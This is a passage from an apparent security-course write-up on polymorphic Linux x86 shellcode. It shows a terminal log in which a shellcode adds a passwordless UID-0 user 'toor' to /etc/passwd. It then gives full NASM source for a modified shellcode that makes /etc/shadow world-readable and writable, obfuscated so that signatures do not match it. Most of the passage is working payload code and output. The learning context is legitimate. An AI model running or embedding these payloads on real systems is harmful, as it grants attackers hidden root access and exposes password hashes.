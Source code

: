 ```
root@mountain:~# tail -n 2 /etc/passwd
beef-xss:x:133:141::/var/lib/beef-xss:/usr/sbin/nologin
redis:x:134:143::/var/lib/redis:/usr/sbin/nologin
root@mountain:~# ./append_passwd_modified.elf 
Shellcode length: 104
root@mountain:~# tail -n 2 /etc/passwd
redis:x:134:143::/var/lib/redis:/usr/sbin/nologin
toor::0:0:t00r:/root:/bin/bash
```

## Modified chmod(/etc/shadow, 0777) Shellcode

This shellcode is small and simple. At 29 bytes I only have 43 bytes of room to fit my polymorphic version. The original shellcode written by Magnefikko can be found here. [here.](http://shell-storm.org/shellcode/files/shellcode-593.php)

This shellcode makes one syscall, a `chmod(2)` syscall that changes the permission of `/etc/shadow` to read, write, and execute for all users on the system. The shadow file is the location on modern Unix and Linux systems that contains user passwords. This can let a user read password hashes and arbitrarily change passwords on the system. The shellcode does this by simply pushing `//etc/shadow` to the stack, moving the hexademial of the octal value `777` to ECX, and firing the syscall. 

My modified version shown below can also be found on github [here.](https://github.com/fbcsec/slae-assignments/blob/master/6-shellcode-polymorph/chmod_shadow_modified.asm) It is 40 bytes long.

```nasm
; Modified 29 bytes chmod("/etc/shadow", 0777) shellcode by fbcsec
; Original by Magnefikko
; Original: http://shell-storm.org/shellcode/files/shellcode-593.php

global _start

section .text

_start:

push 0x0f
pop eax
cdq
push edx

mov edx, 0x665e5350
add edx, 0x11111111
push edx
mov cx, 0xfee8
push 0x68732f63

not ch
add cl, 0x17
push 0x74652f2f

push esp
pop ebx

add dl, 0xee

int 0x80

```
